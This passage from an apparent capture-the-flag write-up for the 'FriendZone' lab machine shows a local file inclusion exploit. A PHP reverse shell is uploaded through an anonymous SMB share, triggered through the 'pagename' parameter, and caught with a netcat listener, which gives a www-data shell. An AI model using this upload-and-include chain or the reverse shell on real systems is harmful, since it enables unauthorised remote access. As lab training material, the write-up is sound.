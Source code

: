 As we can see, the path to this directory is `/etc/Development`. However, after attempting to display `creds.txt` on the page, I had no success. Maybe the service only displays php files? That's what we are going to try now. Let's create a php script:

```php
<?php
echo '<h1>mula</h1>';
?>
```

save it under `test.php` and upload it to the Development share. Now, we try to access it by giving `pagename=/etc/Development/test`:

<img src="../figs/fz4.png" alt="successful LFI">

Confirming the vulnerability!

## [](#step3-foothold)Step 2 - Getting foothold

We will now upload PentestMonkey reverse shell (you can get it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)) to the Development share. Before that, change the `$ip` and `$port` variables inside the reverse shell to match the one of your local machine. Then, we can upload it to the machine with SMB:

```bash
$ smbclient --no-pass //10.129.35.124/Development
Try "help" to get a list of possible commands.
smb: \> put rev-shell.php
putting file rev-shell.php as \rev-shell.php (9.4 kb/s) (average 9.4 kb/s)
```

Now, we start our netcat on the port we assigned on the `$port` variable and pass the parameter in the URL `pagename=/etc/Development/rev-shell`:

```bash
$ nc -lvnp 1234
Connection from 10.129.35.124:37272
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 22:50:45 up  4:50,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
